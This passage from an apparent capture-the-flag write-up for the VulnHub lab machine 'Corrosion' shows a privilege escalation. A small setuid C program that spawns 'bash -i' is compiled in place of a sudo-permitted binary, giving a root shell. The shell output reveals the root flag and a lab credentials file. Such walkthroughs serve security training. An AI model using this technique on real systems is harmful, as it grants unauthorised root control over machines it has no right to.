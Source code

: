 What we can try do is create our own binary using a simple code in `c`.

_For reference, you can check out this blog by [Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)_

```bash
randy@corrosion:~/tools$ nano easysysinfo.c
randy@corrosion:~/tools$ cat easysysinfo.c
#include <unistd.h>
#include <stdlib.h>

void main()
{
  setuid(0);
  setgid(0);
  system("bash -i");
}
randy@corrosion:~/tools$ gcc easysysinfo.c -o easysysinfo
randy@corrosion:~/tools$ chmod u+s easysysinfo
```

If we now run the binary, we are root. You can easily get the root flag in the `/root` directory and a bonus `root_creds.txt` in `/creds`.

```bash
randy@corrosion:~/tools$ sudo /home/randy/tools/easysysinfo
root@corrosion:/home/randy/tools# id
uid=0(root) gid=0(root) groups=0(root)
root@corrosion:/home/randy/tools# cd /root/
root@corrosion:~# ls -la
total 52
drwx------  7 root root 4096 Jul 30 15:59 .
drwxr-xr-x 20 root root 4096 Jul 29 17:05 ..
-rw-r--r--  1 root root  461 Jul 30 16:01 .bash_history
-rw-r--r--  1 root root 3106 Aug 14  2019 .bashrc
drwx------  2 root root 4096 Apr 20  2021 .cache
drwx------  3 root root 4096 Jul 30 14:24 .config
drwxr-xr-x  2 root root 4096 Jul 30 00:33 creds
drwxr-xr-x  3 root root 4096 Jul 29 17:16 .local
-rw-r--r--  1 root root   10 Jan 17 18:23 logs.txt
-rw-r--r--  1 root root  161 Sep 16  2020 .profile
-rw-r--r--  1 root root  251 Jul 30 15:31 root.txt
-rw-r--r--  1 root root   66 Jul 30 14:30 .selected_editor
drwxr-xr-x  3 root root 4096 Jul 29 17:10 snap
-rw-r--r--  1 root root    0 Jul 30 15:23 .sudo_as_admin_successful
root@corrosion:~# wc root.txt
  7  24 251 root.txt
root@corrosion:~# cat root.txt
FLAG: 4NJSA99SD7922197D7S90PLAWE

Congrats! Hope you enjoyed my first machine posted on VulnHub!
Ping me on twitter @proxyprgrammer for any suggestions.

Youtube: https://www.youtube.com/c/ProxyProgrammer
Twitter: https://twitter.com/proxyprgrammer
root@corrosion:~# cd creds/
root@corrosion:~/creds# ls -la
total 12
drwxr-xr-x 2 root root 4096 Jul 30 00:33 .
drwx------ 7 root root 4096 Jul 30 15:59 ..
-rw------- 1 root root   33 Jul 30 00:28 root_creds.txt
root@corrosion:~/creds# cat root_creds.txt
рандиистхебест1993

```
